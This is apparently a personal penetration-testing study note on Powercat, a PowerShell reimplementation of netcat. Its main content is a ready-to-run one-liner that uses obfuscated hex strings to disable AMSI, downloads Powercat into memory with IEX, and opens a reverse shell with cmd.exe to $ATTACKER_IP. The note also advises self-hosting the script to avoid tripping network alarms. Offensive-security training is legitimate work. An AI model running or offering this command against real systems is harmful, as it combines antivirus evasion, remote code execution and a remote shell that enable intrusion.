 # Using Powercat

author:: Nathan Acks  
date:: 2022-08-26

Powercat is a PowerShell-native reimplementation of netcat. Powercat can be installed on Kali Linux using `sudo apt install powercat`.

## One Line Reverse Shell

This disables AMSI, downloads Powercat into memory and invokes the module and then fires up a reverse shell.

```powershell
[REF].Assembly.GetType('System.Management.Automation.'+$("41 6D 73 69 55 74 69 6C 73".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result=$result+$_};$result)).GetField($("61 6D 73 69 49 6E 69 74 46 61 69 6C 65 64".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result2=$result2+$_};$result2),'NonPublic,Static').SetValue($null,$true); IEX (New-Object System.Net.Webclient).DownloadString("https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1"); powercat -c $ATTACKER_IP -p $ATTACKER_PORT -e cmd.exe
```

It's probably advisable to use your own server to host Powercat in order to make tripping network alarms less likely.
 
## References

* [besimorhino / powercat](https://github.com/besimorhino/powercat)
* [Using PowerShell](powershell.md)
* [Using "netcat"](netcat.md)
* [2022-08-26 - OffSec Live: PEN-200](../log/2022-08-26-offsec-live-pen-200.md)
